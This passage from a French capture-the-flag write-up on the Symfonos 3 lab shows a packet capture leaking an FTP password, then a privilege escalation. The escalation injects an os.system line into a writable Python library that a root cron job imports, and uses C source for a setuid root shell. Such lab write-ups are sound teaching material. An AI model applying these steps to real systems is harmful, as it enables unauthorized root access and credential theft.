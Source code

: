 ```bash
        0x0010:  7f00 0001 0015 c2b8 e1a9 68cc 06cf 8beb
        0x0020:  8010 0156 fe28 0000 0101 080a 0014 ffff
        0x0030:  0014 ffff
16:24:01.945057 IP localhost.ftp > localhost.49848: Flags [P.], seq 56:89, ack 13, win 342, options [nop,nop,TS val 1376255 ecr 1376255], length 33: FTP: 331 Password required for hades
        0x0000:  4500 0055 976e 4000 4006 a532 7f00 0001
        0x0010:  7f00 0001 0015 c2b8 e1a9 68cc 06cf 8beb
        0x0020:  8018 0156 fe49 0000 0101 080a 0014 ffff
        0x0030:  0014 ffff 3333 3120 5061 7373 776f 7264
        0x0040:  2072 6571 7569 7265 6420 666f 7220 6861
        0x0050:  6465 730d 0a
16:24:01.945493 IP localhost.49848 > localhost.ftp: Flags [P.], seq 13:36, ack 89, win 342, options [nop,nop,TS val 1376256 ecr 1376255], length 23: FTP: PASS PTpZTfU4vxgzvRBE
 
```

Les identifiants permettent de se connecter en tant que `hades`.

## De simple dieu à root

Sans trop de surprise (au vu de la commande cron exécutée par `root`), on a le contrôle sur des fichiers en rapport avec Python :

```bash
hades@symfonos3:~$ find / -type d -group gods -writable 2> /dev/null 
/usr/lib/python2.7
```

Le script appelé en tâche planifiée utilise le module standard `ftplib` :

```python
import ftplib

ftp = ftplib.FTP('127.0.0.1')
ftp.login(user='hades', passwd='PTpZTfU4vxgzvRBE')

ftp.cwd('/srv/ftp/')

def upload():
    filename = '/opt/client/statuscheck.txt'
    ftp.storbinary('STOR '+filename, open(filename, 'rb'))
    ftp.quit()

upload()
```

Il suffit de modifier `/usr/lib/python2.7/ftplib.py` pour rajouter la commande que l'on souhaite :

```python
os.system("chown root:root /home/hades/gotroot; chmod 4755 /home/hades/gotroot;")
```

Pour moi le programme correspond à ce code C compilé :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash -p");
        return 0;
}
```
